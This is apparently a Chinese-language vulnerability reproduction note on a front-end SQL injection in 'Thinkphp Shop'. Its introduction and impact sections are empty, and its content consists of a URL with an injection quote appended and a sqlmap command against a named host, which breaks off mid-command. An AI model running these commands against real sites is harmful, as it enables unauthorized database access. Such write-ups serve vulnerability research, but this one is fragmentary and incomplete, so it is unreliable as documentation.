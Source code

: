 Thinkphp Shop前台SQL注入
========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

<http://www.0-sec.org/mobile/index/index2/id/1>\'

sqlmap -u \"<http://www.0-sec.org/mobile/index/index2/id/1*>\"
\--random-agent \--batch \--dbms \"mysql\" \--
